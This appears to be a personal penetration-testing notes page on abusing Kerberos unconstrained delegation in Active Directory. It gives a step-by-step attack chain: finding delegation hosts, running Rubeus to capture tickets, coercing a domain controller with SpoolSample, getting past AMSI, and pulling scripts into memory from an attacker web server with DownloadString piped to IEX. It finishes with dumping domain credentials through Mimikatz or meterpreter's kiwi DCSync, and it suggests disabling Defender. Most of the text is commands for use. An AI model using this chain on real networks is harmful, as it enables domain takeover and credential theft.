 # Unconstrained Delegation

## What it is

Ref: (https://www.guidepointsecurity.com/blog/delegating-like-a-boss-abusing-kerberos-delegation-in-active-directory/)

- Happens in the cases where there is a frontend service host (Host A) and a backend service host (Host B)
- When a user wants to access a service, a TGS specific to that service and that user is issued by the KDC
- But the user cant use the TGS for the frontend service to authenticate to the backend service
- To solve this problem, the frontend service is configured for unconstrained delegation which designates Host A as a host that can forward TGS and authenticate on behalf of the user to ANY SERVICE
- Typically, services may be misconfigured with this so worth checking!

## How to check if we can do this

1) Via Bloodhound (CoerceToTGT)
2) Via Powerview (Any non-DC host with the TRUSTED_FOR_DELEGATION in its UAC attribute)
```powershell
Get-DomainComputer -Unconstrained -Properties useraccountcontrol.dnshostname | format-list
```

## Exploiting it

1) After identifying the host, gain local admin access on that host
2) Using meterpreter or potatos or print spooler, elevate yourself to NT Authority/SYSTEM
3) open Administrator cmd prompt and execute Rubeus in monitoring mode
```powershell
.\Rubeus.exe monitor /interval:5 /nowrap
```
4) Use any domain credential that you have to log in to a host and trigger the printer bug through the following:

a) Via SpoolSample.exe


b) Via Invoke-Spoolsample

- Grab the script from here (https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1)

- Use the Custom Runspace to bypass AMSI, download the script in memory from your apache2 server, and then execute it with the following commands (within the runspace)

First Arg to -Command is the DC hostname, Second Arg is the hostname of where your Rubeus is being run on (the unconstrained delegation host)

```csharp
String cmd2 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.45.178/spoolsample.txt') | IEX; Invoke-SpoolSample -Command 'dc03.infinity.com web05.infinity.com'"; 
```



5) Load the DC machine account ticket into your current domain user; and attempt to DCSync. Prior to loading mimikatz, you may need to find someway to disable defender. This can be done via a LOCAL high priv account (For example from LAPS) and disable the defender via another shell.

```csharp
// Watch the quotation marks! Problematic and hard to get this to work. Don't use this until I can figure this out!
String cmd2 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.45.178/mimikatz.txt') | IEX; Invoke-Mimikatz -Command "`"lsadump::dcsync /domain:infinity.com /user:infinity\\administrator`""";
```

Instead use the interactive C# code in the AppLocker.md to run Invoke-Mimikatz.
However there is some weird shit and the command must be run like this (note the single quotation followed by double quotation)

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:pete"'
```



*ALTERNATIVE WAY*

- Since you have a meterpreter session, you can make use of kiwi!

```bash
meterpreter > load kiwi
# dcsync followed by the account you want to target
meterpreter > dcsync administrator 

```